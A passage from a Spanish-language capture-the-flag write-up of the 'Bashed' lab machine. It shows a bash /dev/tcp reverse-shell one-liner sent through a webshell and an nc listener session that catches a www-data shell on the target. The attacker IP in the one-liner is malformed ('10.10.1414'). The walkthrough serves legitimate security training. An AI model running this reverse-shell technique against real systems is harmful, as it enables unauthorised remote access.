 <p align="center">
<img src="/assets/images/bashed/04-page2.png">
</p>

<p align="center">
<img src="/assets/images/bashed/05-page3.png">
</p>

En la webshell vamos a ejecutar lo siguiente:

```bash
bash -c "bash -i >%26 /dev/tcp/10.10.1414/4564 0>%261"
```

En nuestra máquina ponemos un listener por el puerto indicado anteriormente, obteniendo acceso al objetivo satisfactoriamente.

```bash
nc -lnvp 4564
listening on [any] 4564 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.68] 45490
bash: cannot set terminal process group (845): Inappropriate ioctl for device
bash: no job control in this shell
www-data@bashed:/var/www/html/dev$ whoami
whoami
www-data
www-data@bashed:/var/www/html/dev$ hostname
hostname
bashed
```
